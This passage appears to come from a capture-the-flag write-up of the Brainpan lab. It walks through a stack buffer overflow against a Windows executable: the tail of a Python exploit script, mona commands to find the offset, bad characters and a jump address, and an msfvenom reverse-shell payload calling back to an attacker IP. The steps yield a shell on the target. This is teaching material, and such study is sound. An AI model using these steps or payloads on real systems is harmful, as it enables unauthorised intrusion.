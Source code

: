 ```python
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

* Always restart the .exe in Immunity Debugger before running the exploit.

* Now, running the exploit script crashes the program, and we can get the EIP offset position with this command:

  ```!mona findmsp -distance 1000```

* This shows that the EIP offset is 524; we can now generate bytearray in ```mona```:

  ```!mona bytearray -b "\x00"```

* We need to generate a similar badchars array in Python, minus the nullbyte:

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

* Now, edit the exploit script such that the payload contains the badchars generated by Python script, the offset value is 524 and retn address is "BBBB".

* After running the exploit script now, we need to note the ESP register's address and include it as a parameter in the command:

  ```!mona compare -f C:\mona\brainpan\bytearray.bin -a 005FF910```

* Running this shows the mona comparison window with the message 'unmodified' - this means the only badchar is nullbtye \x00

* We can find jump point address now:

  ```!mona jmp -r esp -cpb "\x00"```

* This returns a single address (view Log Data window) - it shows the address 311712F3, with all properties set as ```False```, so we can use it.

* As we are dealing with x86 architecture, we have to use the little-endian system of address writing.

* So our jump point address would be "\xf3\x12\x17\x31"

* Now, we can generate shellcode with the help of ```msfvenom```:

  ```msfvenom -p windows/shell_reverse_tcp LHOST=10.14.31.212 LPORT=4444 EXITFUNC=thread -b "\x00" -f c```

* Edit exploit script such that the payload includes the generated shellcode (enclosed in brackets), retn includes jump point address and padding includes ```"\x90" * 16```.

* We can setup listener, restart the .exe and run the exploit again - this gives us reverse shell.

* We need to implement the same against the victim machine now, so replace IP to that of target machine, and generate shellcode again if required.

* Running the exploit this time gives us reverse shell as 'puck'.

* Enumerating our directories, it seems we are in a Linux environment, and the .exe could have been run using Windows.

* However, most of the Linux commands do not run and we get a 'file not found' error on running those commands.
  ```
